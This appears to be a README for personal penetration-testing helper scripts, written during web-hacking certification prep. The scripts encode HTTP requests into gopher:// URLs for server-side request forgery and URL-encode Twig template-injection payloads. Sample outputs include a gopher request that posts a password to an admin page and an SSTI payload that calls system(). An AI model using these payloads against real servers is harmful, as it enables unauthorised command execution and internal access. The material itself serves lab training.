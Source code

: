 # CBBH-CWES-Artifact
Some python script I made during the course of preparing for CBBH/CWES

The `gopher-manual.py` is for correctly encode the request to gopher URL scheme to send arbitrary bytes to a TCP socket `(it will automatically encode the URL twice)`.

The `SSTI-payload-encode.py` is for correctly encode the `Twig` payload to make it acceptable to a TCP socket.

Usage:

### 1. Gopeher-manual.py

You may need to manually swap the request and the host (u1) inside the `gopher-manual.py`

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopherus-manual.py
gopher://thatserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20thatserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//thatserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520thatserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```

You may need to manually swap the request inside the `gopher-manual-1.1.py` -> This is upgrade version.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopher-manual-1.1.py
gopher://someserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20someserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//someserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520someserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```


### 2. SSTI-payload-encode.py

You can either `python3 SSTI-payload-encode.py "PAYLOAD"` or `python3 SSTI-payload-encode.py "PAYLOAD" --double` for double encoding.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 SSTI-payload-encode.py "{{ ['ls /'] | filter('system') }}" 
{{%2b['ls%2b/']%2b%7c%2bfilter('system')%2b}}
```
